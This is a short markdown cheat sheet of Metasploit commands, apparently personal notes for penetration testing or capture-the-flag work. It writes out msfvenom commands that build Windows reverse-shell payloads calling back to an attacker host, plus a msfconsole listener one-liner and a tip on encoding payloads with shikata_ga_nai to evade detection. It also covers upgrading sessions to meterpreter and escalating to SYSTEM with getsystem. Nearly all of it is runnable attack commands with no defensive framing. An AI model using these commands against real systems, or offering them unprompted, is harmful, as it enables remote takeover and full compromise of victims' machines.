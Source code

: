 # Metasploit commands

## Basics

basic msvenom reverse-shell payload:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=${PORT} -f exe -o shell
```

One-liner for setting up a listener
```
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set ${PORT} 6666; set ExitOnSession false; run"
```
Also, keep in mind that it's worth attempting staged payloads if the unstaged one doesn't work (and vise versa).
e.g. when `windows/x64/shell_reverse_tcp` doesn't work, it's worth it to give  `windows/x64/shell/reverse_tcp` a try.

## encoding

To see encoders available to you, use `msvenom -l encoders`.

Then, you can something like `-e x86/shikata_ga_nai` when creating the payload.

## Session handling

upgrade recent session to meterpreter session: `sessions -u -1`

## controling the output of msfvenom

A lot of the time, we are looking for a file as the payload. eg:
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f python -o shell.py
```

However, if we want to assign the shell to a variable in a script, we can also do that with `-v nameOfVar`, such as:
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f python -v sh
```
which will give us a variable `sh` with the payload as hex. 

## Windows Priv Esc

Using a meterpreter session of from payloads `windows/x64/shell_reverse_tcp` or `windows/shell/reverse_tcp`, you can do this script-kiddie move to privilege escalate:

```
meterpreter > use priv
```
(this might just say `[!] The "priv" extension has already been loaded.`)
```
getsystem
```
and meterpreter will do it's best to get you `NT AUTHORITY\SYSTEM`

